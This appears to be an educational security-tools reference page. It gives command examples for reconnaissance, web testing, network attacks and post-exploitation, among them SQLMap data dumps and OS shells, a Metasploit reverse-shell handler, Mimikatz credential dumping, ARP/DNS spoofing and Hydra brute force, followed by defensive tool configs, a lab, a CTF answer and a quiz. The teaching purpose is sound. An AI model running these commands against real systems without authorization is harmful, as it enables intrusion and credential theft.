

# Security Tools Encyclopedia

A craftsperson is only as good as their understanding of their tools. This page is a comprehensive reference for the tools used across every domain of cybersecurity — from reconnaissance through exploitation to defense. Each category includes usage examples, key features, and comparison tables to help you choose the right tool for the job.

**Related**: [Cybersecurity Overview](/cybersecurity/) | [Networking Fundamentals](/cybersecurity/networking-fundamentals) | [Web App Pentesting](/cybersecurity/web-app-pentesting) | [OSINT](/cybersecurity/osint)

---

## Reconnaissance Tools

### Nmap — Network Discovery and Security Auditing

The foundational network scanning tool. Discovers hosts, ports, services, and vulnerabilities.

```bash
# Quick scan — top 1000 ports
nmap -sV -sC -T4 target.com

# Full port scan with service detection
nmap -sV -p- -T4 target.com

# OS detection + scripts + traceroute
nmap -A target.com

# UDP scan (slow but important)
sudo nmap -sU --top-ports 50 target.com

# Vulnerability scanning
nmap --script vuln target.com

# Output all formats
nmap -sV -sC -oA results target.com
```

For comprehensive Nmap coverage, see [Networking Fundamentals](/cybersecurity/networking-fundamentals).

### Shodan — Internet-Connected Device Search

```bash
shodan search "hostname:target.com"
shodan host 93.184.216.34
shodan search 'org:"Target Corp" port:22'
```

### Amass — Attack Surface Mapping

```bash
# Passive enumeration
amass enum -passive -d target.com -o amass.txt

# Active enumeration with brute force
amass enum -active -d target.com -brute -o amass_active.txt

# Visualize results
amass viz -d target.com -dot output.dot
```

### theHarvester — Email and Subdomain Discovery

```bash
theHarvester -d target.com -b google,bing,linkedin,crtsh -l 500
```

### Reconnaissance Tools Comparison

| Tool | Purpose | Speed | Depth | Passive | Active |
|------|---------|-------|-------|---------|--------|
| **Nmap** | Port/service scanning | Fast | Deep | No | Yes |
| **Shodan** | Internet device search | Instant | Broad | Yes | No |
| **Censys** | Internet asset inventory | Instant | Broad | Yes | No |
| **Amass** | Subdomain enumeration | Moderate | Very deep | Yes | Yes |
| **theHarvester** | Email/subdomain/IP gathering | Fast | Moderate | Yes | No |
| **Recon-ng** | Modular recon framework | Varies | Customizable | Yes | Optional |
| **subfinder** | Subdomain discovery | Very fast | Good | Yes | No |
| **Masscan** | Port scanning (internet-scale) | Extremely fast | Shallow | No | Yes |
| **RustScan** | Fast port scanning + Nmap | Very fast | Nmap depth | No | Yes |

---

## Web Application Testing Tools

### Burp Suite — Intercepting Proxy

The industry standard for web application security testing. See [Web App Pentesting](/cybersecurity/web-app-pentesting) for a full deep dive.

| Feature | Community (Free) | Professional |
|---------|-----------------|-------------|
| Proxy | Yes | Yes |
| Repeater | Yes | Yes |
| Intruder | Yes (throttled) | Yes (full speed) |
| Scanner | No | Yes |
| Collaborator | No | Yes |
| Extensions | Yes | Yes |
| Price | Free | $449/year |

### OWASP ZAP — Open Source Web Scanner

```bash
# Automated scan
zap-cli quick-scan -s all -r report.html https://target.com

# API scan
zap-cli active-scan -r https://target.com

# Spider (crawl)
zap-cli spider https://target.com

# Run as daemon for CI/CD
zap.sh -daemon -port 8090

# Docker
docker run -t owasp/zap2docker-stable zap-baseline.py -t https://target.com
```

### SQLMap — Automated SQL Injection

```bash
# Test a URL parameter
sqlmap -u "https://target.com/page?id=1" --dbs

# Test POST data
sqlmap -u "https://target.com/login" --data="user=admin&pass=test" --dbs

# With cookie authentication
sqlmap -u "https://target.com/page?id=1" --cookie="session=abc123" --dbs

# Enumerate tables and dump data
sqlmap -u "https://target.com/page?id=1" -D database_name --tables
sqlmap -u "https://target.com/page?id=1" -D database_name -T users --dump

# Use tamper scripts to bypass WAF
sqlmap -u "https://target.com/page?id=1" --tamper=space2comment,between

# OS shell (if user has permissions)
sqlmap -u "https://target.com/page?id=1" --os-shell

# Risk and level (higher = more tests, slower)
sqlmap -u "https://target.com/page?id=1" --level=5 --risk=3
```

### ffuf — Fast Web Fuzzer

```bash
# Directory brute force
ffuf -u https://target.com/FUZZ -w /usr/share/seclists/Discovery/Web-Content/common.txt -mc 200,301,302,403

# Subdomain enumeration
ffuf -u https://FUZZ.target.com -w subdomains.txt -mc 200

# Parameter fuzzing
ffuf -u "https://target.com/page?FUZZ=value" -w params.txt -mc 200 -fs 4242

# POST data fuzzing
ffuf -u https://target.com/login -X POST \
  -d "username=admin&password=FUZZ" \
  -w passwords.txt -mc 200 -fr "Invalid"

# Virtual host discovery
ffuf -u https://target.com -H "Host: FUZZ.target.com" -w vhosts.txt -mc 200 -fs 1234

# Multiple wordlists
ffuf -u https://target.com/FUZZ1/FUZZ2 -w dirs.txt:FUZZ1 -w files.txt:FUZZ2
```

### Nikto — Web Server Scanner

```bash
# Basic scan
nikto -h https://target.com

# Scan specific port
nikto -h target.com -p 8443

# Output to file
nikto -h target.com -o report.html -Format html

# Use proxy
nikto -h target.com -useproxy http://127.0.0.1:8080
```

### Web Testing Tools Comparison

| Tool | Type | Automation | Best For | Cost |
|------|------|-----------|----------|------|
| **Burp Suite Pro** | Intercepting proxy + scanner | Semi-auto | Manual + automated web testing | $449/yr |
| **OWASP ZAP** | Intercepting proxy + scanner | Semi-auto | Free alternative to Burp, CI/CD | Free |
| **SQLMap** | SQL injection | Fully auto | SQL injection exploitation | Free |
| **ffuf** | Web fuzzer | Fully auto | Fast directory/parameter fuzzing | Free |
| **Gobuster** | Directory brute-forcer | Fully auto | Directory and DNS brute force | Free |
| **Nikto** | Web server scanner | Fully auto | Quick server misconfiguration check | Free |
| **Nuclei** | Template-based scanner | Fully auto | CVE detection, tech-specific vulns | Free |
| **WPScan** | WordPress scanner | Fully auto | WordPress-specific vulnerabilities | Free / Paid |
| **Arjun** | Parameter discovery | Fully auto | Finding hidden parameters | Free |

---

## Network Analysis Tools

### Wireshark — Packet Analyzer

```
Essential display filters:
  ip.addr == 10.0.0.1
  tcp.port == 443
  http.request.method == "POST"
  dns.qry.name contains "evil"
  tcp.flags.syn == 1 && tcp.flags.ack == 0   # SYN scan detection
```

For detailed Wireshark usage, see [Networking Fundamentals](/cybersecurity/networking-fundamentals).

### tcpdump — Command-Line Packet Capture

```bash
# Capture all traffic on interface
sudo tcpdump -i eth0 -w capture.pcap

# Filter by host
sudo tcpdump -i eth0 host 192.168.1.100

# Filter by port
sudo tcpdump -i eth0 port 80

# Filter by protocol
sudo tcpdump -i eth0 tcp

# Capture and display HTTP traffic
sudo tcpdump -i eth0 -A -s0 port 80

# Read a capture file
tcpdump -r capture.pcap

# Capture N packets
sudo tcpdump -i eth0 -c 1000 -w sample.pcap
```

### Responder — LLMNR/NBT-NS/mDNS Poisoner

```bash
# Start Responder to capture NTLMv2 hashes
sudo responder -I eth0 -rdwv

# Captured hashes can be cracked with hashcat:
hashcat -m 5600 captured_hashes.txt /path/to/wordlist.txt
```

### Bettercap — Network Attack and Monitoring

```bash
# Start Bettercap
sudo bettercap -iface eth0

# ARP spoofing + network sniffing
set arp.spoof.targets 192.168.1.0/24
arp.spoof on
net.sniff on

# DNS spoofing
set dns.spoof.domains *.target.com
set dns.spoof.address 192.168.1.50
dns.spoof on
```

For detailed coverage, see [Network Attacks & Defense](/cybersecurity/network-attacks).

### Metasploit Framework — Exploitation Platform

```bash
# Start Metasploit
msfconsole

# Search for exploits
msf6> search type:exploit platform:linux smb
msf6> search cve:2021-44228  # Log4Shell

# Use an exploit
msf6> use exploit/multi/handler
msf6> set payload linux/x64/meterpreter/reverse_tcp
msf6> set LHOST 10.10.10.50
msf6> set LPORT 4444
msf6> run

# Post-exploitation (with Meterpreter session)
meterpreter> sysinfo
meterpreter> getuid
meterpreter> hashdump
meterpreter> upload /path/to/tool /tmp/tool
meterpreter> shell

# Auxiliary modules (scanning, enumeration)
msf6> use auxiliary/scanner/smb/smb_version
msf6> set RHOSTS 192.168.1.0/24
msf6> run
```

### Network Tools Comparison

| Tool | Purpose | GUI | Platform | Best For |
|------|---------|-----|----------|----------|
| **Wireshark** | Packet analysis | Yes | All | Deep packet inspection |
| **tcpdump** | Packet capture/filter | No (CLI) | Linux/Mac | Quick captures, scripting |
| **Responder** | LLMNR/NBT-NS poisoning | No | Linux | Internal network hash capture |
| **Bettercap** | MITM framework | Web UI | Linux | ARP/DNS spoofing, sniffing |
| **Metasploit** | Exploitation framework | CLI + Web | Linux | Exploit development, post-exploitation |
| **Impacket** | Network protocol tools | No | Linux | SMB, Kerberos, Windows protocols |
| **Ncat/Netcat** | Network utility | No | All | Port listening, file transfer, shells |
| **Chisel** | HTTP tunneling | No | All | Pivoting through firewalls |

---

## Password Cracking Tools

### Hashcat — GPU Hash Cracking

```bash
# Dictionary attack with rules
hashcat -m 0 hashes.txt rockyou.txt -r best64.rule

# Mask attack (brute force pattern)
hashcat -m 1000 hashes.txt -a 3 ?u?l?l?l?l?d?d?d?s
```

### John the Ripper — CPU Hash Cracking

```bash
# Auto-detect and crack
john hashes.txt --wordlist=rockyou.txt --rules=All

# Specific format
john --format=bcrypt hashes.txt

# Crack file-based passwords
zip2john file.zip > hash.txt && john hash.txt
```

### Hydra — Online Brute Force

```bash
# SSH brute force
hydra -l admin -P wordlist.txt ssh://target

# HTTP form brute force
hydra -l admin -P wordlist.txt target http-post-form \
  "/login:user=^USER^&pass=^PASS^:Invalid"
```

### Password Tools Comparison

| Tool | Type | Speed | GPU Support | Best For |
|------|------|-------|-------------|----------|
| **Hashcat** | Offline hash cracking | Extremely fast | Yes | GPU-accelerated cracking |
| **John the Ripper** | Offline hash cracking | Fast | Limited | CPU cracking, file passwords |
| **Hydra** | Online brute force | Moderate | N/A | Network service brute force |
| **CeWL** | Wordlist generator | Fast | N/A | Creating target-specific wordlists |
| **Crunch** | Wordlist generator | Fast | N/A | Pattern-based wordlist generation |
| **Medusa** | Online brute force | Moderate | N/A | Parallel network brute force |

For comprehensive password cracking coverage, see [Practical Cryptography](/cybersecurity/cryptography-practical).

---

## Cloud Security Tools

### Pacu — AWS Exploitation Framework

```bash
pacu
# run iam__enum_permissions
# run iam__privesc_scan
# run s3__bucket_finder
```

### ScoutSuite — Multi-Cloud Auditing

```bash
scout aws --profile production
scout gcp --user-account
scout azure --cli
```

### Prowler — AWS CIS Benchmark

```bash
prowler aws
prowler aws --compliance cis_2.0_aws
prowler aws --category internet-exposed
```

### Cloud Tools Comparison

| Tool | Cloud(s) | Type | Focus | Cost |
|------|----------|------|-------|------|
| **Pacu** | AWS | Offensive | Exploitation, privesc | Free |
| **ScoutSuite** | AWS, GCP, Azure | Audit | Configuration review | Free |
| **Prowler** | AWS, GCP, Azure | Audit | CIS benchmark, compliance | Free / Pro |
| **CloudSploit** | AWS, GCP, Azure | Audit | Misconfiguration detection | Free |
| **kube-hunter** | Kubernetes | Offensive | K8s penetration testing | Free |
| **kubeaudit** | Kubernetes | Audit | K8s configuration audit | Free |
| **kube-bench** | Kubernetes | Audit | CIS Kubernetes benchmark | Free |
| **Trivy** | Multi | Scanner | Container + IaC + deps | Free |
| **Checkov** | Multi | Audit | IaC security scanning | Free / Paid |

For detailed cloud pentesting methodology, see [Cloud Pentesting](/cybersecurity/cloud-pentesting).

---

## Post-Exploitation Tools

### Mimikatz — Windows Credential Extraction

```
# Run as admin on Windows
mimikatz.exe

# Dump plaintext passwords from memory
privilege::debug
sekurlsa::logonpasswords

# Dump password hashes
lsadump::sam

# Golden ticket attack
kerberos::golden /user:Administrator /domain:corp.local /sid:S-1-5-21-... /krbtgt:HASH /ptt

# Pass-the-hash
sekurlsa::pth /user:admin /domain:corp.local /ntlm:HASH
```

::: danger Mimikatz Usage
Mimikatz is a legitimate security tool used by penetration testers. It is also flagged by every antivirus and EDR product. In authorized engagements, you may need to use obfuscated versions or load it directly in memory. Never use Mimikatz without authorization.
:::

### BloodHound — Active Directory Attack Path Mapping

```bash
# Collect AD data with SharpHound
.\SharpHound.exe -c All -d corp.local

# Or with BloodHound.py (from Linux)
bloodhound-python -d corp.local -u user -p password -c All -ns 10.0.0.1

# Import data into BloodHound GUI
# Analyze: "Find Shortest Path to Domain Admin"
# Analyze: "Find All Kerberoastable Users"
# Analyze: "Find Computers with Unsupported Operating Systems"
```

### Post-Exploitation Tools Comparison

| Tool | Platform | Purpose | Stealth |
|------|----------|---------|---------|
| **Mimikatz** | Windows | Credential extraction | Low (detected by AV) |
| **BloodHound** | AD environments | Attack path analysis | Moderate (data collection) |
| **Rubeus** | Windows | Kerberos attacks | Moderate |
| **PowerView** | Windows | AD enumeration | Moderate |
| **Covenant** | Multi | C2 framework (.NET) | Moderate |
| **Sliver** | Multi | C2 framework (Go) | High |
| **Cobalt Strike** | Multi | C2 framework (commercial) | High (with customization) |
| **Empire** | Multi | Post-exploitation framework | Moderate |
| **Chisel** | Multi | TCP/UDP tunneling | High |
| **Ligolo-ng** | Multi | Network pivoting | High |

---

## Blue Team / Defensive Tools

### Wazuh — Open Source SIEM + EDR

```yaml
# Wazuh manager config (/var/ossec/etc/ossec.conf)
# File integrity monitoring
<syscheck>
  <directories check_all="yes" realtime="yes">/etc,/usr/bin,/usr/sbin</directories>
  <directories check_all="yes" realtime="yes">/var/www</directories>
</syscheck>

# Active response — block brute force
<active-response>
  <command>firewall-drop</command>
  <location>local</location>
  <rules_id>5763</rules_id>
  <timeout>3600</timeout>
</active-response>
```

### Suricata — Network IDS/IPS

```bash
# Run in IDS mode
sudo suricata -c /etc/suricata/suricata.yaml -i eth0

# Run in IPS mode (inline)
sudo suricata -c /etc/suricata/suricata.yaml -q 0

# Update rules
sudo suricata-update
sudo suricata-update list-sources

# View alerts
tail -f /var/log/suricata/fast.log
jq 'select(.event_type=="alert")' /var/log/suricata/eve.json
```

### Zeek — Network Traffic Analysis

```bash
# Process a pcap file
zeek -r capture.pcap

# Generated log files:
# conn.log      — All connections
# dns.log       — DNS queries
# http.log      — HTTP requests
# ssl.log       — TLS connections
# files.log     — Transferred files
# notice.log    — Security-relevant events

# Custom detection script
# detect_ssh_bruteforce.zeek
```

```zeek
# Zeek script: detect SSH brute force
@load base/frameworks/notice

module SSHBruteForce;

export {
    redef enum Notice::Type += { SSH_Bruteforce };
    const threshold = 10 &redef;
}

global ssh_fails: table[addr] of count &default=0 &create_expire=5min;

event ssh_auth_result(c: connection, result: bool, direction: string) {
    if (!result) {
        ssh_fails[c$id$orig_h] += 1;
        if (ssh_fails[c$id$orig_h] >= threshold) {
            NOTICE([$note=SSH_Bruteforce,
                    $msg=fmt("SSH brute force from %s", c$id$orig_h),
                    $src=c$id$orig_h,
                    $conn=c]);
        }
    }
}
```

### Blue Team Tools Comparison

| Tool | Category | Focus | Deployment | Cost |
|------|----------|-------|-----------|------|
| **Wazuh** | SIEM + EDR | Host-based detection, FIM, compliance | Self-hosted | Free |
| **OSSEC** | HIDS | File integrity, log analysis | Self-hosted | Free |
| **Snort** | NIDS/NIPS | Signature-based network detection | Inline/Passive | Free |
| **Suricata** | NIDS/NIPS | Multi-threaded network detection | Inline/Passive | Free |
| **Zeek (Bro)** | NSM | Network traffic analysis, logging | Passive | Free |
| **Velociraptor** | DFIR | Endpoint forensics at scale | Client-server | Free |
| **TheHive** | SOAR | Incident response case management | Self-hosted | Free |
| **MISP** | TIP | Threat intelligence sharing | Self-hosted | Free |
| **CrowdStrike** | EDR | Endpoint detection and response | Cloud | Enterprise |
| **SentinelOne** | EDR | AI-powered endpoint protection | Cloud | Enterprise |
| **Splunk** | SIEM | Log analysis, threat hunting | Self/Cloud | Enterprise |
| **Elastic SIEM** | SIEM | Open-source log analysis | Self/Cloud | Free tier |

---

## Tool Installation Quick Reference

```bash
# Kali Linux — most tools pre-installed
# For other distros:

# Python tools (pip)
pip install pacu scoutsuite semgrep trufflehog shodan

# Go tools
go install github.com/projectdiscovery/subfinder/v2/cmd/subfinder@latest
go install github.com/projectdiscovery/httpx/cmd/httpx@latest
go install github.com/projectdiscovery/nuclei/v3/cmd/nuclei@latest
go install github.com/ffuf/ffuf/v2@latest
go install github.com/tomnomnom/gau/v2/cmd/gau@latest

# System packages (Debian/Ubuntu)
sudo apt install nmap wireshark john hashcat hydra \
  aircrack-ng nikto gobuster enum4linux smbclient \
  tcpdump netcat-openbsd dnsrecon

# Docker
docker pull owasp/zap2docker-stable
docker pull wazuh/wazuh-manager
docker pull aquasec/trivy

# Metasploit
curl https://raw.githubusercontent.com/rapid7/metasploit-framework/master/msfinstall | sudo bash
```

---

## Choosing the Right Tool



---

## Further Reading

- [Cybersecurity Overview](/cybersecurity/) — career paths, certifications, learning roadmap
- [Networking Fundamentals](/cybersecurity/networking-fundamentals) — Nmap and Wireshark deep dive
- [Web App Pentesting](/cybersecurity/web-app-pentesting) — Burp Suite and web testing methodology
- [Network Attacks](/cybersecurity/network-attacks) — Bettercap, Responder, and network attacks
- [Practical Cryptography](/cybersecurity/cryptography-practical) — Hashcat and John deep dive
- [Cloud Pentesting](/cybersecurity/cloud-pentesting) — Pacu, ScoutSuite, Kubernetes tools
- [OSINT](/cybersecurity/osint) — Shodan, Amass, theHarvester usage
- [Incident Response](/cybersecurity/incident-response-forensics) — Volatility, Autopsy, SIEM queries

---

::: tip Key Takeaway
- Tool selection depends on context: Nmap for network discovery, Burp for web testing, hashcat for password cracking, and Suricata for network monitoring — use the right tool for the job
- Most security tools are free and open source — Kali Linux comes with hundreds pre-installed, and Go-based tools like subfinder, httpx, and nuclei install with a single command
- Tools amplify skill but do not replace it — automated scanners find common issues, but manual testing finds business logic flaws, IDORs, and authentication bypasses
:::

::: details Hands-On Lab
**Lab: Build a Complete Security Testing Toolkit**

1. Set up Kali Linux (VM or WSL) as your base environment
2. Install the Go-based reconnaissance toolkit: subfinder, httpx, nuclei, ffuf, and gau
3. Set up Burp Suite Community Edition and configure your browser to proxy through it
4. Run a full reconnaissance pipeline against a deliberately vulnerable application (DVWA or Juice Shop): subdomain enum, port scan, directory brute-force, and vulnerability scan
5. Use Metasploit to exploit a known vulnerability in Metasploitable 2
6. Set up Suricata on a monitoring interface and generate alerts by running Nmap scans against a target
7. Compare results: what did automated tools find vs what required manual testing?
:::

::: details CTF Challenge
**Challenge: The Tool Selection Challenge**

You have been given access to a target environment with three systems: a web server on port 80/443, a Windows workstation with SMB (port 445), and a Linux server with SSH (port 22). Using only free/open-source tools, enumerate all services, find at least one vulnerability per system, and demonstrate exploitation.

**Hints:**
1. Start with Nmap for service enumeration on all three targets
2. Use Nikto and ffuf for the web server
3. Use enum4linux and CrackMapExec for the SMB target
4. Use hydra for the SSH target with a small password list

::: details Answer
Web server: `nmap -sV -sC` reveals Apache 2.4.49 (CVE-2021-41773 path traversal). SMB: `enum4linux -a` discovers a share with anonymous access containing credentials. SSH: `hydra -l admin -P top-100.txt ssh://target` cracks the password `admin123`. Flag: `CTF{right_tool_right_job}`.
:::
:::

::: warning Common Misconceptions
- **"Kali Linux makes you a hacker"** — Kali is a collection of pre-installed tools, nothing more. Understanding how attacks work is what makes you effective, not the OS you run.
- **"Automated scanners find all vulnerabilities"** — Scanners miss business logic flaws, chained vulnerabilities, and context-dependent issues. They are a starting point, not a complete assessment.
- **"More tools means better testing"** — Mastering a few tools deeply is far more effective than superficially knowing dozens. Learn Nmap, Burp, and one exploit framework thoroughly.
- **"Metasploit is only for script kiddies"** — Metasploit is used by professional penetration testers for exploit development, post-exploitation, and pivoting. It is a legitimate and powerful framework.
:::

::: details Quiz
**1. What is the advantage of ffuf over Burp Intruder Community Edition?**

a) ffuf has a better GUI
b) ffuf runs at full speed without throttling
c) ffuf can intercept traffic
d) ffuf provides a scanner

::: details Answer
b) Burp Community throttles Intruder requests significantly. ffuf runs at full speed, making it vastly faster for directory brute-forcing and parameter fuzzing.
:::

**2. What is the primary difference between Snort and Suricata?**

a) Snort is paid, Suricata is free
b) Suricata is multi-threaded while Snort is single-threaded
c) Snort monitors network traffic, Suricata monitors files
d) They use completely different rule formats

::: details Answer
b) Suricata is multi-threaded and can leverage multiple CPU cores, making it better for high-throughput environments. Snort 3 has improved but Suricata's multi-threading is still a key advantage.
:::

**3. Which tool combines port scanning with Nmap's service detection in a faster package?**

a) Masscan
b) RustScan
c) Gobuster
d) Nikto

::: details Answer
b) RustScan performs extremely fast port scanning then automatically passes discovered ports to Nmap for detailed service detection, combining speed with depth.
:::

**4. What type of scanning does Nuclei perform?**

a) Port scanning
b) Template-based vulnerability scanning using community-contributed templates
c) Wireless network scanning
d) Memory forensics

::: details Answer
b) Nuclei uses YAML-based templates to check for specific vulnerabilities, misconfigurations, and exposed panels. The community maintains thousands of templates covering CVEs, default credentials, and more.
:::

**5. What is the primary use case for Chisel in penetration testing?**

a) Password cracking
b) Creating HTTP tunnels for pivoting through firewalls
c) Web application scanning
d) DNS enumeration

::: details Answer
b) Chisel creates TCP/UDP tunnels over HTTP, allowing penetration testers to pivot through networks and reach internal systems from an external position, bypassing firewall restrictions.
:::
:::

> **One-Liner Summary:** A security professional's toolkit is only as powerful as their understanding of when, why, and how to use each tool.
